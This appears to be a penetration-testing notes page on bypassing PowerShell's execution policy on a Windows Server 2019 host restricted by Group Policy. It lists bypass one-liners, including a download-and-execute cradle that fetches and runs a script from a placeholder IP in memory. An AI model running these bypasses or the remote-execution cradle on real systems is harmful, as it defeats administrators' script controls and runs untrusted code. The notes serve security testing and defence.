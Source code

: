 # Restricted Mode

## Description

PowerShell's execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

On a Windows computer you can set an execution policy for the local computer, for the current user, or for a particular session. You can also use a Group Policy setting to set execution policies for computers and users.


Microsoft stress in their documentation that Execution Policy / Restricted Mode is a safety feature and not a security feature.

## Scenario

This page covers a scenario on a fully updated Windows 2019 Server with a Group Policy Object applied that enforces PowerShell to restrict running all scripts on the system.

As a result of this attempting to execute a basic script on the system produces the following result:


## Identify current policy

```bash
Get-ExecutionPolicy -List | Format-Table -AutoSize
```

## Bypasses

There are many ways to bypass the restriction. Most methods are based on reading the contents of the script and piping to the PowerShell.exe process in some way. Below is shown a simple bypass method.

```bash
Get-Content .\Script.ps1 | powershell.exe -nop
```


The following methods have also proven to be successful.

```bash
# Read contents and pipe to Powershell.exe (Writes to disk)
Get-Content .\Script.ps1 | powershell.exe -nop
Type .\Script.ps1 | powershell.exe -nop

# Download and execute (In Memory)
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://<IP>/<File>')"

# Potential simple bypass (Writes to disk)
powershell -ep Bypass .\Script.ps1
powershell -ep Unrestricted .\Script.ps1

# Bypass process scope
Set-ExecutionPolicy Bypass -Scope Process
#Bypass current user scope
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```

## References
- [Netspi](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)
- [Null Byte](https://null-byte.wonderhowto.com/how-to/bypass-powershell-execution-policy-pwn-windows-0323455/)
- [Microsoft](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.1)

